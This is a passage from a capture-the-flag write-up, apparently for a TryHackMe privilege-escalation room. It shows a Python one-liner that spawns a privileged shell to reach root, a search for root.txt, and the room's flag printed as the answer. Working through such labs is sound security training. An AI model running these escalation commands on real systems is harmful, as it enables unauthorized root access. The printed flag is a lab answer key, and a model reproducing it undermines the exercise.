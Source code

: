 * We have to use the selected script with the `/usr/bin/python` interpreter.

```
$ /usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
whoami
root
```

* We have successfully escalated our privilege to `root`.

### No answer needed

###

### root.txt

* Let's find the `root.txt` file.

```
find / -name root.txt 2>/dev/null 
/root/root.txt
```

* All we have to do now is `cat` the file.

```
cat /root/root.txt
THM{pr1v1l3g3_3sc4l4t10n}
```

### Answer

```
THM{pr1v1l3g3_3sc4l4t10n}
```
